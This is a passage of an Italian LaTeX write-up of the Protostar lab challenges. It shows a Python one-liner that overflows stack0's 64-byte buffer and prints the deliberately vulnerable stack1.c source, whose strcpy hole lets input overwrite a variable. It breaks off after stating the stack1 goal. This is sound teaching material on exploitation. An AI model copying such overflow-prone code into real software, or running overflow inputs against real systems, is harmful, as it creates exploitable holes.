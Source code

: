 Quindi ci basta dare in input lungo almeno 65byte e saremo in grado di sovrascrivere la variabile modified. Per semplicità, invece di scrivere 65 caratteri, possiamo usare uno script python in-line come il seguente:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65'
\end{lstlisting}
L'output di questo comando è passato in input a stack0 tramite pipe, come segue:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65' | /opt/protostar/bin/stack0
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65' | /opt/protostar/bin/stack0
\end{lstlisting}
Vinciamo la sfida.

\section{Stack 1}
Il programma in questione si chiama \textbf{stack1.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack1}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
\end{lstlisting}

\subsection{Obiettivo}
L'obiettivo della sfida è impostare la variabile \textbf{modified} al valore \textbf{0x61626364} a tempo di esecuzione.

